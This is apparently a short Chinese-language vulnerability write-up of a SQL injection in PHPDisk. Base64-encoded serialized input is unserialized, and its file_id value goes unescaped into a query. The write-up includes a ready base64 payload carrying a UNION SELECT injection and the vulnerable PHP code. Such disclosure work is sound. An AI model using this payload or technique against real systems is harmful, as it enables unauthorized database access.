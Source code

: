 在这里 $data = trim(gpc('data','P','')); data 是我们可控的。

虽然全局转义 但是在这里会对他进行一次解码

然后对他先解码一次 然后再反序列一次。

$file[file_id]

然后将这个就带入了查询当中、

Come and sql it。

## 漏洞证明

首先在本地对语句进行序列化 然后再 encode 一次 得到

YToxOntzOjc6ImZpbGVfaWQiO3M6MTk6ImFhJyBVTklPTiBTRUxFQ1QgMSMiO30=

这里我直接把语句输出来把。

```
$file = unserialize(base64_decode($data));

                //write_file(PHPDISK_ROOT.'system/ax.txt',var_export($file,true),'ab');

                //print_r($file);

                //exit;

                $sql="select count(*) from {$tpf}files where yun_fid='{$file[file_id]}' and userid='$pd_uid'";

                echo $sql;exit;

                $num = @$db->result_first("select count(*) from {$tpf}files where yun_fid='{$file[file_id]}' and userid='$pd_uid'"); 
```

然后提交 得到。

![](img/12154650309b55ec83b6f87ae8520909a080f585.jpg)

看这语句。 不用多说了把。
